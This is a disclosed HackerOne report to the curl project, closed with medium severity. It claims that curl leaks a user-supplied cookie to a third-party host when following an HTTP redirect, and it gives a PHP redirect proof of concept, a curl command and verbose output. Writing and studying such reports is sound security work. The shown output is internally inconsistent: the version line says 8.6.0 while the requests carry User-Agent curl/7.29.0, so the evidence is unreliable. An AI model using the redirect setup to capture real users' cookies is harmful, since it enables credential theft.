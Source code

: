 # cookie is sent on redirect

## Report Details
- **Report ID**: 2352676
- **URL**: https://hackerone.com/reports/2352676
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-02-02T09:26:50.071Z
- **Disclosed**: 2024-03-28T08:56:28.173Z

## Reporter
- **Username**: iylz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
[add summary of the vulnerability]

Curl can be coaxed to leak user credentials to third-party host by issuing HTTP redirect.

## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1.Create a 302.php file, such as:
```
<?php
header("Location: http://a.com:8000");
?>
```
Add the 2 record in the /etc/hosts file:  
```
127.0.0.1 a.com
127.0.0.1 b.com
```
 2.  curl -vv --cookie 'aaa=2222'  http://b.com/302a.php -L
The redirect will be followed, and the confidential headers cookie will be sent to a.com:
```
# ./curl -V
curl 8.6.0 (x86_64-pc-linux-gnu) libcurl/8.6.0 OpenSSL/1.0.2k-fips zlib/1.2.7
Release-Date: 2024-01-31
Protocols: dict file ftp ftps gopher gophers http https imap imaps ipfs ipns mqtt pop3 pop3s rtsp smb smbs smtp smtps telnet tftp
Features: alt-svc AsynchDNS HSTS HTTPS-proxy IPv6 Largefile libz NTLM SSL threadsafe UnixSockets
# curl -vv --cookie 'aaa=2222'  http://b.com/302a.php -L
* About to connect() to b.com port 80 (#0)
*   Trying 127.0.0.1...
* Connected to b.com (127.0.0.1) port 80 (#0)
> GET /302a.php HTTP/1.1
> User-Agent: curl/7.29.0
> Host: b.com
> Accept: */*
> Cookie: aaa=2222
>
< HTTP/1.1 302 Found
< Date: Fri, 02 Feb 2024 08:49:12 GMT
< Server: Apache/2.4.6 (CentOS) PHP/5.4.16
< X-Powered-By: PHP/5.4.16
< Location: http://a.com:8000
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host b.com left intact
* Issue another request to this URL: 'http://a.com:8000'
* About to connect() to a.com port 8000 (#1)
*   Trying 127.0.0.1...
* Connected to a.com (127.0.0.1) port 8000 (#1)
> GET / HTTP/1.1
> User-Agent: curl/7.29.0
> Host: a.com:8000
> Accept: */*
> Cookie: aaa=2222
```

This does not comply with RFC regulations and is inconsistent with browser behavior, and RFC also states that redirection requires deleting cookies.
https://www.ietf.org/rfc/rfc9110.txt 
```
3.  Consider removing header fields that were not automatically
       generated by the implementation (i.e., those present in the
       request because they were added by the calling context) where
       there are security implications; this includes but is not limited
       to Authorization and Cookie.
```

## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

  * [attachment / reference]
https://www.ietf.org/rfc/rfc9110.txt

## Impact

Leak of confidential information (user credentials).

## Attachments
No attachments
